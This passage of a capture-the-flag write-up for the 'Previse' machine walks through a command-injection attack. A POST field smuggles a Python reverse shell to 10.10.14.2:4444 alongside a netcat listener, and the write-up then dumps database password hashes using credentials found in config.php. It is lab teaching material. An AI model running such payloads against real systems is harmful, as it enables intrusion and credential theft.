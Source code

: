 Since we got a GET request from the website, it meas we have executed code on the remote machine!

To gain an initial shell we can replace the code after the "delim" with a reverse shell command. I used a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) 

POST Data: `delim=comma+%26%26+export+RHOST%3d"10.10.14.2"%3bexport+RPORT%3d4444%3bpython+-c+'import+socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("/bin/sh")'`

A Netcat Listener needs to be setup and listen to the specified port.

![](./images/Pasted%20image%2020211224035728.png)

### 3.) Getting User

In the source code there is also a file called `config.php` that contains the credentials for connecting to the local Database. 

Connecting using `mysql -D previse -h localhost -u root -p` and enter password when prompted. 

Basic MySQL commands here: 

- listing all databases 
- selecting previse
- listing all tables 
- selecting everything from a specific table

We find a list of hashes:

```mysql
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | admin1   | $1$🧂llol$UQb0RhzDERebjcLHQXEim. | 2021-12-24 01:27:00 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
mysql> 
```

We have a username `m4lwhere` and the password hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

If we manage to crack the hash then we should be able to SSH into the machine.
